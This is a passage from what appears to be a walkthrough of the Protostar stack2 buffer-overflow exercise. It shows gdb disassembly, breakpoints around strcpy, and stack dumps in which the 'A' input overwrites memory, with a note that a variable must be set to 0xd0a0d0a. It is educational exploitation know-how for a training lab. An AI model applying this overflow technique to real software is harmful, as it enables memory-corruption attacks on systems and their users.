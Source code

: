 ```
0x080484c3 <main+47>:        call   0x80483bc <errx@plt>
0x080484c8 <main+52>:        mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:        mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:        mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:        lea    eax,[esp+0x18]
0x080484dc <main+72>:        mov    DWORD PTR [esp],eax
0x080484df <main+75>:        call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:        mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:        cmp    eax,0xd0a0d0a
0x080484ed <main+89>:        jne    0x80484fd <main+105>
0x080484ef <main+91>:        mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:        call   0x80483cc <puts@plt>
0x080484fb <main+103>:        jmp    0x8048512 <main+126>
0x080484fd <main+105>:        mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:        mov    eax,0x8048641
0x08048506 <main+114>:        mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:        mov    DWORD PTR [esp],eax
0x0804850d <main+121>:        call   0x80483ac <printf@plt>
0x08048512 <main+126>:        leave  
0x08048513 <main+127>:        ret    
End of assembler dump.
```

Putting breakpoints before and after the strcpy -

```
(gdb) break *0x080484df
Breakpoint 1 at 0x80484df: file stack2/stack2.c, line 20.
(gdb) break *0x080484e4
Breakpoint 2 at 0x80484e4: file stack2/stack2.c, line 22.
```

Analysing the assembly code, after the strcpy, the esp + x58 location is put into eax and compared to 0xd0a0d0a. Therefore, by overflowing the value of that location needs to be changed to 0xd0a0d0a.

```
(gdb) r
Starting program: /opt/protostar/bin/stack2
Breakpoint 1, 0x080484df in main (argc=1, argv=0xbffff824) at stack2/stack2.c:20
20        stack2/stack2.c: No such file or directory.
        in stack2/stack2.c
(gdb) x/30wx $esp
0xbffff710:        0xbffff728        0xbffff9e4        0xb7fff8f8        0xb7f0186e
0xbffff720:        0xb7fd7ff4        0xb7ec6165        0xbffff738        0xb7eada75
0xbffff730:        0xb7fd7ff4        0x08049748        0xbffff748        0x08048358
0xbffff740:        0xb7ff1040        0x08049748        0xbffff778        0x08048549
0xbffff750:        0xb7fd8304        0xb7fd7ff4        0x08048530        0xbffff778
0xbffff760:        0xb7ec6365        0xb7ff1040        0x00000000        0xbffff9e4
0xbffff770:        0x08048530        0x00000000        0xbffff7f8        0xb7eadc76
0xbffff780:        0x00000001        0xbffff824
(gdb) c
Continuing.
Breakpoint 2, main (argc=1, argv=0xbffff824) at stack2/stack2.c:22
22        in stack2/stack2.c
(gdb) x/30wx $esp
0xbffff710:        0xbffff728        0xbffff9e4        0xb7fff8f8        0xb7f0186e
0xbffff720:        0xb7fd7ff4        0xb7ec6165        0x41414141        0x41414141
0xbffff730:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff740:        0x41414141        0x41414141        0xbf004141        0x08048549
0xbffff750:        0xb7fd8304        0xb7fd7ff4        0x08048530        0xbffff778
0xbffff760:        0xb7ec6365        0xb7ff1040        0x00000000        0xbffff9e4
0xbffff770:        0x08048530        0x00000000        0xbffff7f8        0xb7eadc76
0xbffff780:        0x00000001        0xbffff824
```
